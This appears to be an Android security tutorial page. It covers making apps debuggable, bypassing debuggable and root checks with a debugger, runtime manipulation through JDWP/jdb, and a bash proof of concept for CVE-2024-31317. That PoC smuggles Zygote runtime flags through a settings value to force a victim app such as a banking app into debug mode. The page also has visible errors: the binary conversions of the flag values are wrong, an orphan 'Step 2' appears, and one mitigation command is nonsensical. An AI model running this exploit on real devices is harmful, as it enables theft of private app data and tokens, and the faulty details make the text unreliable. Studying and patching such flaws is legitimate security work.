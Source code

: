 # Exploiting a debuggeable application

# **Bypassing root and debuggeable checks**

This section of the post is a summary from the post [**https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0**](https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0)

## Steps to Make an Android App Debuggable and Bypass Checks

### **Making the App Debuggable**

Content based on https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0

1. **Decompile the APK:**

   - Utilize the APK-GUI tool for decompiling the APK.
   - In the _android-manifest_ file, insert `android:debuggable="true"` to enable debugging mode.
   - Recompile, sign, and zipalign the modified application.

2. **Install the Modified Application:**

   - Use the command: `adb install <application_name>`.

3. **Retrieve the Package Name:**

   - Execute `adb shell pm list packages –3` to list third-party applications and find the package name.

4. **Set the App to Await Debugger Connection:**

   - Command: `adb shell am setup-debug-app –w <package_name>`.
   - **Note:** This command must be run each time before starting the application to ensure it waits for the debugger.
   - For persistence, use `adb shell am setup-debug-app –w ––persistent <package_name>`.
   - To remove all flags, use `adb shell am clear-debug-app <package_name>`.

5. **Prepare for Debugging in Android Studio:**

   - Navigate in Android Studio to _File -> Open Profile or APK_.
   - Open the recompiled APK.

6. **Set Breakpoints in Key Java Files:**
   - Place breakpoints in `MainActivity.java` (specifically in the `onCreate` method), `b.java`, and `ContextWrapper.java`.

### **Bypassing Checks**

The application, at certain points, will verify if it is debuggable and will also check for binaries indicating a rooted device. The debugger can be used to modify app info, unset the debuggable bit, and alter the names of searched binaries to bypass these checks.

For the debuggable check:

1. **Modify Flag Settings:**
   - In the debugger console's variable section, navigate to: `this mLoadedAPK -> mApplicationInfo -> flags = 814267974`.
   - **Note:** The binary representation of `flags = 814267974` is `11000011100111011110`, indicating that the "Flag_debuggable" is active.

![https://miro.medium.com/v2/resize:fit:1400/1*-ckiSbWGSoc1beuxxpKbow.png](https://miro.medium.com/v2/resize:fit:1400/1*-ckiSbWGSoc1beuxxpKbow.png)

These steps collectively ensure that the application can be debugged and that certain security checks can be bypassed using the debugger, facilitating a more in-depth analysis or modification of the application's behavior.

Step 2 involves changing a flag value to 814267972, which is represented in binary as 110000101101000000100010100.

# **Exploiting a Vulnerability**

A demonstration was provided using a vulnerable application containing a button and a textview. Initially, the application displays "Crack Me". The aim is to alter the message from "Try Again" to "Hacked" at runtime, without modifying the source code.

## **Checking for Vulnerability**

- The application was decompiled using `apktool` to access the `AndroidManifest.xml` file.
- The presence of `android_debuggable="true"` in the AndroidManifest.xml indicates the application is debuggable and susceptible to exploitation.
- It's worth noting that `apktool` is employed solely to check the debuggable status without altering any code.

## **Preparing the Setup**

- The process involved initiating an emulator, installing the vulnerable application, and using `adb jdwp` to identify Dalvik VM ports that are listening.
- The JDWP (Java Debug Wire Protocol) allows debugging of an application running in a VM by exposing a unique port.
- Port forwarding was necessary for remote debugging, followed by attaching JDB to the target application.

## **Injecting Code at Runtime**

- The exploitation was carried out by setting breakpoints and controlling the application flow.
- Commands like `classes` and `methods <class_name>` were used to uncover the application’s structure.
- A breakpoint was set at the `onClick` method, and its execution was controlled.
- The `locals`, `next`, and `set` commands were utilized to inspect and modify local variables, particularly changing the "Try Again" message to "Hacked".
- The modified code was executed using the `run` command, successfully altering the application’s output in real-time.

This example demonstrated how the behavior of a debuggable application can be manipulated, highlighting the potential for more complex exploits like gaining shell access on the device in the application's context.

---

# 2024 – Turning **any** application into a debuggable process (CVE-2024-31317)

Even if the target APK is _not_ shipped with the `android:debuggable` flag, recent research showed that it is possible to force **arbitrary applications** to start with the `DEBUG_ENABLE_JDWP` runtime flag by abusing the way Zygote parses command-line arguments.

*   **Vulnerability:** Improper validation of `--runtime-flags` supplied through Zygote’s command socket allows an attacker that can reach `system_server` (for example via the privileged `adb` shell which owns the `WRITE_SECURE_SETTINGS` permission) to inject extra parameters. When the crafted command is replayed by `system_server`, the victim app is forked as _debuggable_ and with a JDWP thread listening. The issue is tracked as **CVE-2024-31317** and was fixed in the June 2024 Android Security Bulletin.
*   **Impact:** Full read/write access to the private data directory of **any** app (including privileged ones such as `com.android.settings`), token theft, MDM bypass, and in many cases a direct path to privilege-escalation by abusing exported IPC endpoints of the now-debuggable process.
*   **Affected versions:** Android 9 through 14 prior to the June 2024 patch level.

## Quick PoC

```bash
# Requires: adb shell (device must be <2024-06-01 patch-level)
# 1. Inject a fake API-denylist exemption that carries the malicious Zygote flag
adb shell settings put global hidden_api_blacklist_exemptions "--runtime-flags=0x104|Lcom/example/Fake;->entryPoint:"

# 2. Launch the target app – it will be forked with DEBUG_ENABLE_JDWP
adb shell monkey -p com.victim.bank 1

# 3. Enumerate JDWP PIDs and attach with jdb / Android-Studio
adb jdwp               # obtain the PID
adb forward tcp:8700 jdwp:<pid>
jdb -connect com.sun.jdi.SocketAttach:hostname=localhost,port=8700
```

> The crafted value in step 1 breaks the parser out of the “fast-path” and appends a second synthetic command where `--runtime-flags=0x104` (`DEBUG_ENABLE_JDWP | DEBUG_JNI_DEBUGGABLE`) is accepted as if it had been supplied by the framework. Once the app is spawned, a JDWP socket is opened and regular dynamic-debug tricks (method replacement, variable patching, live Frida injection, etc.) are possible **without modifying the APK or the device boot image**.

## Detection & Mitigation

*   Patch to **2024-06-01** (or later) security level – Google hardened `ZygoteCommandBuffer` so that subsequent commands cannot be smuggled in this way.
*   Restrict `WRITE_SECURE_SETTINGS` / `shell` access on production devices. The exploit requires this permission, which is normally only held by ADB or OEM-privileged apps.
*   On EMM/MDM-managed fleets, enforce `ro.debuggable=0` and deny shell via `adb disable-verifier`.

---

## References

- [https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0](https://medium.com/@shubhamsonani/hacking-with-precision-bypass-techniques-via-debugger-in-android-apps-27fd562b2cc0)
- [https://resources.infosecinstitute.com/android-hacking-security-part-6-exploiting-debuggable-android-applications](https://resources.infosecinstitute.com/android-hacking-security-part-6-exploiting-debuggable-android-applications)
- [https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
- [https://blog.flanker017.me/cve-2024-31317/](https://blog.flanker017.me/cve-2024-31317/)


